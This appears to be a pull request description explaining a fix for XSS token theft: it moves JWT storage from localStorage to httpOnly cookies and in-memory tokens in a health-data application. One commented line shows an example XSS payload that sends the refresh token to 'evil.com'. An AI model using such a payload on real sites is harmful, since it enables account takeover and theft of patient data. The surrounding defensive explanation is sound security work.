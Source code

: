 # PR #1 Security Fix: XSS Protection for JWT Authentication

## Executive Summary

This PR addresses a **CRITICAL** XSS vulnerability in the authentication system by migrating from localStorage-based JWT storage to a secure httpOnly cookie + in-memory approach. This is essential for HIPAA compliance and protecting Protected Health Information (PHI).

**Security Risk Level**: 🔴 **CRITICAL**
**HIPAA Impact**: ✅ **Required for Compliance**
**Status**: ✅ **Ready for Review**

---

## 1. Security Improvement Overview

### The Vulnerability (Before)

```typescript
// ❌ VULNERABLE: Tokens exposed to JavaScript
localStorage.setItem('accessToken', token);
localStorage.setItem('refreshToken', token);

// Any XSS attack could steal tokens:
// <script>fetch('evil.com?token='+localStorage.getItem('refreshToken'))</script>
```

**Attack Scenarios**:

- Compromised third-party scripts (analytics, ads, widgets)
- Stored XSS in user-generated content
- DOM-based XSS vulnerabilities
- Browser extensions with malicious code

**Impact**: Complete account takeover, unauthorized PHI access

### The Solution (After)

```typescript
// ✅ SECURE: Defense in depth
// Refresh token: httpOnly cookie (JavaScript cannot access)
// Access token: In-memory only (cleared on page reload)

let accessTokenMemory: string | null = null; // Memory only
// Cookie: refresh_token; HttpOnly; Secure; SameSite=Strict
```

**Security Layers**:

1. ✅ **httpOnly cookies** - XSS cannot access refresh tokens
2. ✅ **In-memory storage** - Access tokens never persisted
3. ✅ **SameSite=Strict** - CSRF protection
4. ✅ **Secure flag** - HTTPS-only transmission (production)
5. ✅ **CSRF tokens** - Additional cross-site protection

---